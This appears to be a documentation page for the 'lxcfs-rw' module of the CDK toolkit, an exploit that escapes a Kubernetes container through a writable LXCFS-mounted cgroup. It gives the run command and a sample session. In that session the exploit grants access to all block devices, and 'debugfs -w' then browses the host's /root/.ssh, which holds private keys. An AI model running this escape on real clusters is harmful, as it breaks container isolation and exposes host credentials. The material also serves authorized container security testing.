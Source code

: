 # Exploit: K8S & lxcfs Escape

Escape container when root has LXCFS read & write privilege.

当POD挂载了LXCFS目录包含CGOURP目录，并且对CGROUP有写权限。

## Usage
```
./cdk run lxcfs-rw
```

## Example

```
./cdk run lxcfs-rw

root@lxcfs-rw:/tmp# ./cdk run lxcfs-rw
2021/01/28 09:25:21 found pod devices.allow path: /kubepods/burstable/pod561ee143-4468-443a-9940-f262a9417ae5/ef6edb3c483591aaa28923df6de84d1fedb9372890c4441fd0e31ed4972237b1
2021/01/28 09:25:21 found host blockDeviceId Marjor: 252 Minor: 1
2021/01/28 09:25:21 found rw lxcfs mountpoint: /data/test/lxcfs
2021/01/28 09:25:22 set all block device accessible success.
2021/01/28 09:25:22 devices.allow content: a *:* rwm
2021/01/28 09:25:22 exploit success, run "debugfs -w host_dev".

root@lxcfs-rw:/tmp# debugfs -w host_dev
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root/.ssh
 393231  (12) .    52566  (12) ..    395870  (24) authorized_keys
 395829  (16) config    395860  (20) known_hosts    393227  (16) id_rsa
 395831  (3996) id_rsa.pub
```

